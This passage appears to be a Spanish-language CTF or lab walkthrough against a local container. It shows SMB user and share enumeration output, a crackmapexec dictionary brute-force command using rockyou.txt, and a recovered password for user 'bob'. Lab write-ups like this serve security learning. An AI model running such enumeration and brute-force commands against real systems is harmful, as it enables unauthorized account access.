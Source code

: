 ###### Usuarios Encontrados:
```bash
 ========================================( Users on 172.17.0.2 )========================================

index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: james    Name: james     Desc: 
index: 0x2 RID: 0x3e9 acb: 0x00000010 Account: bob      Name: bob       Desc: 

user:[james] rid:[0x3e8]
user:[bob] rid:[0x3e9]
```

###### Servicios compartidos:
```bash
 ==================================( Share Enumeration on 172.17.0.2 )==================================

smbXcli_negprot_smb1_done: No compatible protocol selected by server.

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        html            Disk      HTML Share
        IPC$            IPC       IPC Service (bd4d2efa697a server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
Protocol negotiation to server 172.17.0.2 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available

[+] Attempting to map shares on 172.17.0.2                                                                                   
//172.17.0.2/print$     Mapping: DENIED Listing: N/A Writing: N/A                                                            
//172.17.0.2/html       Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:                                                                                               
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*                                                                                   
//172.17.0.2/IPC$       Mapping: N/A Listing: N/A Writing: N/A
```

Realizaremos un ataque de fuerza bruta por diccionario a estos dos usuarios que logramos encontrar:
Para ello cremos un archivo: **users.txt** donde estaran almacenados los dos usuarios para despues aplicar fuerza bruta de la siguiente forma:
```bash
crackmapexec smb 172.17.0.2 -u users.txt -p /usr/share/wordlists/rockyou.txt
```

### Credenciales Encontradas
Tenemos la contrasena del usuario **bob**
```bash
SMB         172.17.0.2      445    8247985FD3CF     [+] 8247985FD3CF\bob:star 
```
